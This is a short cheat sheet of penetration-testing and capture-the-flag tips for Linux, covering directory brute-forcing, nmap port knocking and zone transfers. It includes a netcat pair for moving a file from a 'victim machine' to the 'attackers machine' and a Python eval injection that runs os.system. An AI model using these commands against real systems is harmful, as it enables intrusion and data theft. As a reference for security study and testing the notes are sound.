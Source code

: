 # For linux

* Change host timezone
    - `echo "Asia/kolkata" > /etc/timezone`
    - `dpkg-reconfigure -f noninteractive tzdata`
* Always run dirsearch with extensions
    - `python dirsearch.py -f -e html,php,tar.gz,txt,xml,zip,jpg,png,jpeg -u IP LIST`
* Port knocking with nmap
    - `for x in 066 666 3432; do nmap -Pn --max-retries 0 -p $x 10.10.10.10; done`
    - If you find set of 3 numbers possible options is port knocking
* Transfer with ncat
    - `nc -q1 -lvp 1234 < file` - on victim machine
    - `nc IP 1234> file` - on attackers machine
* use `dig axfr somedomain` to actually find other zone tranfser
    - checkout tempus fugit writeup
* If enum/sudo doesn't do any good.....check for writeable dirs
    - `find / -type d 2>/dev/null`
* LFI to RCE via SSH log poisoning
    - https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/
* To escape eval in python
    - https://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html
    - `eval("__import__('os').system('ls')#")``

